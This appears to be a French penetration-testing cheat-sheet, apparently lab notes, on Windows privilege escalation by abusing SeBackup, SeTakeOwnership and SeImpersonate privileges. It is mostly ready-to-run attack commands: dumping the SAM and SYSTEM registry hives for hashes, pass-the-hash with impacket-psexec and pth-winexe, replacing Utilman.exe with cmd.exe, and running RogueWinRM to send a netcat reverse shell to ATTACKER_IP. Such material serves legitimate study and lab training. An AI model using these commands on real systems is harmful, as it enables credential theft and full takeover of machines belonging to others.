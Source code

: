 Vérifiés ses privilèges :

```c
whoami /priv
```

Vous pouvez trouver une liste complètedes privilèges exploitables sur : [Priv2Admin](https://github.com/gtworek/Priv2Admin)


## SeBackup / SeRestore
Permettent aux utilisateurs de lire et d'écrire dans n'importe quel fichier du système, en ignorant toute DACL en place

Disposant de ce pouvoir, un attaquant peut élever de manière triviale les privilèges sur le système en utilisant de nombreuses techniques. Comme dumper SAM et SYSTEM pour extraire le hachage du mot de passe de l'administrateur local.


```c
reg save hklm\system C:\Users\THMBackup\system.bak
reg save hklm\sam C:\Users\THMBackup\sam.bak
```

Suivre [[Post Exploitation/Data Exfiltration/Windows#SMB|Windows Data Exfiltration - SMB]] pour telecharger les fichier `.bak`

Nous pouvons enfin utiliser le hachage de l'administrateur pour effectuer une attaque Pass-the-Hash et accéder à la machine cible avec les privilèges SYSTEM :

```sh
impacket-psexec -hashes LM_HASH:NT_HASH administrator@10.10.71.216
```

```
pth-winexe -U 'administrator%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```


## SeTakeOwnership
Permet à un utilisateur de s'approprier n'importe quel objet du système, y compris les fichiers et les clés de registre

Nous allons abuser `utilman.exe`pour élever les privilèges. Utilman est une application Windows intégrée utilisée pour fournir des options de facilité d'accès pendant l'écran de verrouillage.

Pour remplacer utilman, on va commencer par s'en approprier :

```c
takeown /f C:\Windows\System32\Utilman.exe
```

Donner à l'utilisateur toutes les autorisations sur `utilman.exe` :

```c
icacls C:\Windows\System32\Utilman.exe /grant {USERNAME}:F
```

Après cela, nous remplacerons utilman.exe par une copie de cmd.exe :

```c
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Pour déclencher utilman, :
- Verrouiller l'écran depuis le bouton démarrer
- cliquez sur le bouton "Ease of Access (Option d'ergonomie)"


## SeImpersonate / SeAssignPrimaryToken
Permettent à un processus de se faire passer pour d'autres utilisateurs et d'agir en leur nom. L'usurpation d'identité consiste à pouvoir générer un processus ou un thread dans le contexte de sécurité d'un autre utilisateur.

Si nous parvenons à prendre le contrôle d'un processus avec les privilèges `SeImpersonate` ou `SeAssignPrimaryToken`, nous pouvons usurper l'identité de n'importe quel utilisateur se connectant et s'authentifiant à ce processus.

Pour élever ses privilèges à l'aide de tels comptes, un attaquant a besoin des éléments suivants : 

1. Générer un processus afin que les utilisateurs puissent s'y connecter et s'y authentifier pour que l'usurpation d'identité se produise. 

2. Trouvez un moyen de forcer les utilisateurs privilégiés à se connecter et à s'authentifier auprès du processus malveillant généré.

> Si, pour une raison quelconque, le service WinRM ne s'exécute pas sur le serveur victime, un attaquant peut démarrer un faux service WinRM sur le port 5985 et intercepter la tentative d'authentification effectuée par le service BITS au démarrage

Si l'attaquant dispose des privilèges SeImpersonate, il peut exécuter n'importe quelle commande au nom de l'utilisateur qui se connecte, qui est SYSTEM.

1. Démarrer un écouteur netcat pour recevoir un shell inversé
2. Exécuter l'exploit

```sh
c:\Temp\RogueWinRM.exe -p "C:\Temp\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

[Exploit RogueWinRM](https://github.com/antonioCoco/RogueWinRM)


Ou utiliser le module `incognito` de metasploit qui va nous permettre d'exploiter cette vulnérabilité. 

